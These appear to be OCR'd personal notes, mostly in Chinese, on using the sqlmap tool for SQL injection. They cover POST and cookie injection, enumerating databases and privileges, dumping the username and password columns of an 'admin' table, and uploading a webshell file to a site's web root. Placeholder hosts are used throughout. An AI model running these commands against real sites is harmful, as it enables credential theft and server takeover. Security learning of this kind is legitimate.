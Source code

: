 sqlmap进行post注入

```
sqlmap -u
#指定一个带参数的url地址进行扫描
#no parameter 没有参数
```









sqlmap工具使用 

sqlmap的探测等级 

级别 1 get post 
级别 2 cookie 



```
sqlmap -u
sqlmap -r
sqlmap 
```

```l
sqlmap.py -u  "xxx.com/xxx?id=1" --dbs #列出当前的所有数据库
sqlmap.py -u  "xxx.com/xxx?id=1" --current-db# 累出当前数据库
sqlmap.py -u  "xxx.com/xxx?id=1" --current-user#列出当前用户
sqlmap.py -u  "xxx.com/xxx?id=1" --is-dba #判断是否为管理员用户

```







vulnerable to attack 脆弱的易攻击 

```cmd
sqlmap进行cookie·注入 
sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2 sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2  --tables //猜解表 
sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2 --colunms -T "admin" 
sqlmap.py -u "www.xxuser.com/shownews.asp"  --cookie "id = 16" --level 2 --dump -C "username,password" -T "admin" 
sqlmap 实现webshell的插入 
sqlmap.py -u "" --is-dba  // 判断是否是管理员 
sqlmap.py -u "" --file-write"D:/ma.php" --file-dest "?网站物理路径?" 
```

